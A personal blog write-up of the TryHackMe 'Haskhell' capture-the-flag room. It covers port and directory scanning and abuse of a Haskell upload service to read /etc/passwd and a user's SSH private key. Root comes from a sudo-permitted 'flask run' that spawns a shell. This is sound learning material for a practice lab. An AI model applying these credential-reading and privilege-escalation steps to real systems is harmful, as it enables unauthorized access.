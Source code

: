 ```yaml
---
layout: post
title:  "THM - Haskhell"
date:   2020-06-30 18:00:00 +1000
category: hacking
---
```


## Introduction
*Show your professor that his PhD isn't in security.*
Not much to go on there. Haskell is a programming language that I don't know anything about. Let's go!

## Ports
nmap says we've got 22 (SSH) and 5001, which is a non-standard port.
>5001/tcp open  http    syn-ack ttl 63 Gunicorn 19.7.1

Gunicorn is a 'Python Web Server Gateway Interface HTTP server' according to Wikipeda.

## 5001
Visting http://10.10.222.186:5001/ shows we have a webserver running on this port, to do with *Functional Programming 220*. There is a link to /homework1 which contains some instructions, and assigned work is supposed to be submitted to /upload. The upload function supposedly accepts Haskell files only. Unfortunately, the linked /upload returns a 404.

It also says that *Your file will be compiled and ran and all output will be piped to a file under the uploads directory.*

## Dirbusting
>root@kali:/opt/tryhackme/haskhell# gobuster dir -u http://10.10.222.186:5001/ -w /usr/share/dirb/wordlists/common.txt

Running dirbuster with the common wordlist reveals a page called /submit, and that appears to be what the /upload was supposed to be.

Creating a valid haskell file (hello, world of course!), we can upload it:

>module Main  
  where  
main=putStrLn "Hello, World!"  

And actually it gets shown to us:
http://10.10.222.186:5001/uploads/fib.hs

>[1 of 1] Compiling Main             ( /home/flask/uploads/fib.hs, /home/flask/uploads/fib.o )
Linking /home/flask/uploads/fib ...  
Hello, World!  

So, what can we do with that??

Well, we can read a file for a start:  
>main = do  
  s <- readFile "/etc/passwd"  
  doSomethingWith s  
doSomethingWith :: String -> IO ()  
doSomethingWith str = putStrLn str  

>root:x:0:0:root:/root:/bin/bash  
etc...  
haskell:x:1000:1000:haskhell:/home/haskell:/bin/bash  
flask:x:1001:1001::/home/flask:/bin/sh  
prof:x:1002:1002::/home/prof:/bin/sh  

Unfortunately we can't open /etc/shadow :)

We can do some guessing - first I tried /home/prof/.profile, and that worked ... so what if we try /home/prof/.ssh/id_rsa? Bingo!

## Bingo
I won't paste it here, but we've got the private key for 'prof' and once we chmod 600 on it we can login:
>root@kali:/opt/tryhackme/haskhell# ssh -i id_rsa prof@10.10.222.186
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

Prof has the user flag, so that's sweet.

Running sudo -l, prof can do:
>User prof may run the following commands on haskhell:  
    (root) NOPASSWD: /usr/bin/flask run
    
## Flask
Flask is a micro web framework written in Python, so let's make the most super basic Python thing you can imagine:

>prof@haskhell:/root# cat /dev/shm/app.py   
import os  
os.system("/bin/bash")  

Now this **isn't** a flask app, but it doesn't matter. Next, we set our environment variable:
>$ export FLASK_APP=app.py  

And we do this:
>prof@haskhell:/dev/shm$ sudo /usr/bin/flask run  
root@haskhell:/dev/shm# whoami  
root  

Boom. I had so little trouble with this I feel like I must've cheated by guessing the presence of id_rsa, and I didn't consult any walkthroughs. Maybe I'm just levelling up.
